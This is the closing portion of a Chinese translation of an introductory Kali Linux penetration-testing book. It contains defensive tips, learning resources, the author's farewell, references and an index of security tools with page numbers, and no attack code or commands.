Security Onion 拥有许多功能和工具，使分析和跟踪网络流量变得简单得多，并在发现可疑流量时提醒你。

内部检查摄像头、开放设备以及所有泄露过多信息（如网络信息、SNMP 字符串用户账户）的打印机。

此外，使用开源（如 OpenVas）或商业安全扫描系统（如 NESSUS）扫描你的网络安全问题。OpenVas 预装在 Kali 中，虽然运行它需要一些步骤，但网上有大量的教程。

## 学习攻性计算机安全

最后，学习书中介绍的等攻性计算机安全技术。

我们已经涵盖了攻性安全系统中最基础的技术。市场上有很多书籍和安全培训研讨会。学习渗透技术（使用 Kali 等产品），然后在 Metasploitable 和 Mutidae 等工具上尝试你的技能。

与你当地的 OWASP 分会或其他地区的安全小组建立联系。参加安全会议并在安全领域建立人脉。当提出好问题时，很多人都很乐意提供帮助。SANS 也有非常棒的课程。

一旦精通，*并在获得管理层许可的情况下*，请测试你网络系统的安全性。

## 结论

我想花一点时间感谢你阅读本书。如果你有任何意见或建议，或者只是想说“你好！”，请告诉我，我很乐意听到你的反馈！

你可以通过 `Cyberarms@live.com` 联系我。

此外，请查看我的博客 `cyberarms.wordpress.com` 以获取最新的计算机安全新闻和教程。

这个项目花费了一些时间（实际上我是几年前使用 Backrack 开始的，在 Kali 出世后更新了它），但如果反响良好，我计划创建一个中级水平，甚至可能是第三本更高级的书。

再次感谢！

顺颂商祺，

Daniel Dieterle

# 参考文献

- 1. “Windows XP SP3 and Office 2003 Support Ends April 8th, 2014” - http://www.microsoft.com/en-us/windows/enterprise/endofsupport.aspx

- 2. “Security Onion”, by Doug Burks - http://blog.securityonion.net/

# 索引

### A

Airmon-NG, 237

防病毒软件/网络安全程序, 291

### B

浏览器自动攻破, 165

浏览器利用框架 (BeEF), 136

### C

CLEAREV, 50

CrackStation, 220

Crunch, 217

### D

Dmitry, 72

Driftnet, 125

### E

Easy Creds, 263

伦理黑客问题,

利用选项, 32

漏洞利用, 29

### F

Fern WiFi Cracker, 232, 285

Fern WIFI Cracker, 245

查找我的哈希值, 174

防火墙和 IPS, 290

### G

Getlwd, 47

GETPID, 51

### H

Hashcat, 207, 208, 209, 210, 213, 214

HashCat, 207

hashdump, 121, 178, 210

Hydra, 224

### I

ipconfig, 11, 20, 21, 49

### K

Keyscan, 201

Kismet, 255

### L

Lcd, 47

限制服务与权限级别, 291

Linux 密码, 221

LM 哈希值, 171

锁定键盘记录器, 201

日志, 294

长复杂密码, 292

lpwd, 47

### M

MacChanger, 243

中间人攻击, 123

Metasploit, 26

Metasploitable 2, 15

Meterpreter 了一个壳, 43

Mimikatz, 185, 188, 189, 195, 197, 200

模块, 59

### N

NAT, 11

Netdiscover, 72

网络安全监控, 292

nmap , 59, 73, 74, 89, 90, 91, 99, 100, 110

### O

Objectif Sécurité, 172

### P

数据包捕获, 126

数据包捕获, 123

数据包记录器, 127

哈希值传递 (Pass the Hash), 176

哈希传递工具包, 181

补丁与更新, 290

有效负载, 37

PowerShell 攻击, 155

### R

树莓派, 272

Recon-NG, 67

远程会话, 41

远程 shell, 35

Routerpwn, 228

运行脚本, 56

### S

扫描器, 99

扫描地址范围, 105

截图, 53

脚本拦截程序, 291

Shodan, 76

Skull Security, 220

社会工程学, 146

社会工程工具包 (SET), 148

录音, 55

诡计, 161

### T

目标类型, 34

TELNET, 103

### U

UAC 绕过, 119

Unreal IRC, 92

更新 Kali, 13

Urlsnarf, 124

使用 Metasploit, 88

Utilman, 1 89, 190, 191, 192, 195, 200

### V

Veil, 112

VMWare Player, 7

VMWare tools , 15

### W

摄像头, 53

Wi-Fi 保护设置 (WPS), 230

Wifite, 234, 251, 254

Wireshark, 23, 123, 129, 130, 239, 240, 241, 259, 283, 284

字典列表, 215

### X

Xming , 277

Xplico, 130

### Z

Zenmap, 73
